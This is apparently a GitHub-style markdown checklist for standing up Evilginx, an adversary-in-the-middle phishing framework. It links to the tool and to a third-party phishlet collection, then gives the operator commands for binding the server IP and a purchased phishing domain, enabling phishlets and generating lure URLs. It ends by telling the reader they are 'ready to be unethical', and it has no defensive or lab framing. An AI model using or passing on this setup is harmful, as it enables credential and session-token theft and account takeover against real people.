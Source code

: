 ## Evilginx Checklist
For evilginx its pretty straightforward 😊

- **Choose Your Platform**
  - [ ] Linux (Preferred)
  - [ ] Windows (Optional)
      
-  Get the **Evilginx Build** [Link]( https://github.com/kgretzky/evilginx2/releases/tag/v3.3.0)
-  **Phishlet** (Nahh I'm not gonna show here step by step guide how to make if you want to learn that go *[here](https://help.evilginx.com/docs/guides/phishlets)* or else *[Phishlets](https://github.com/An0nUD4Y/Evilginx2-Phishlets)*)
-  **Configuration**
  - [ ] Configure Evilginx with IP and Domain
       ```bash
        config ipv4 <evilginx EC2 instance IP>
        config domain <purchased phishing domain (GoDaddy, Namecheap, etc.)>

  - [ ] Set up and enable phishlets
       ```bash
        phishlets hostname <phishlet name> <Phishing Domain>
        phishlets enable <phishlet name>

  - [ ] Creating Lures
       ```bash
       lures create <phishlet name>
       lures
       lures get-url <id no.>


*This is all, you are ready to be unethical on your own risk*

